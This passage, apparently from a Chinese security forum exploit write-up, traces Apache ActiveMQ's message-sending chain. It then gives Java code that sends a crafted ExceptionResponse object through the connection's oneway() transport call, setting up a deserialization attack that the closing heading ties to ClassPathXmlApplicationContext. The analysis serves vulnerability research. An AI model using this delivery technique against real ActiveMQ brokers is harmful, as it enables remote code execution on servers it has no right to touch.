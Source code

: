 —&gt;this.next.oneway(command);

Transport.class

MutexTransport.class—&gt; oneway(Object command)

AbstractInactivityMonitor.class

—&gt; oneway(Object o)

—&gt; this.doOnewaySend(o)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-c741af291f67e31c505af5ef801c0a8db04e8112.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-2fbd37d7c876817f5a1dafbc6e5a9024ec073f27.png)  
AbstractInactivityMonitor完毕消息发送准备，随后就会调用TcpTransport。OpenWireFormat，DataOutputStream通过tcp发送消息。

   
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-0e7479661b4ea6135ea769f34b4ff7d144f59785.png)

总结一下消息发送流程：

1.发送消息入口

2.调用ActiveMQMessageProducerSupport的send方法

3.调用ActiveMQSession的send接口进行消息发送

4.ActiveMQConnection发送消息

5.ResponseCorrelator发送request

6.调用MutexTransport来发送消息

7.调用AbstractInactivityMonitor完毕消息发送准备

8.调用TcpTransport、OpenWireFormat、DataOutputStream

9.终于完毕通过tcp发送消息

所以我们只要通过oneway(Object o)的方法就相当于producer.send(message);直接发送消息，我们ExceptionResponse类传进去就相当于序列化发送了消息。所以这里我们只需要获取到当前ActiveMQConnection的Transport transport，就可以调用oneway()发送消息，代码如下。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-02eab30cab831d231d56cce0039d22b32cc7f1be.png)

//创建连接工厂  
ActiveMQConnectionFactory activeMQConnectionFactory = new ActiveMQConnectionFactory(*ACTIVEMQ\_URL*);  
//创建连接  
Connection connection = activeMQConnectionFactory.createConnection();  
//打开连接  
connection.start();

//获取oneway方法

((ActiveMQConnection)connection).getTransportChannel().oneway(exceptionResponse);

**四、\*\***ClassPathXmlApplicationContext**\*\*类**
=================================================
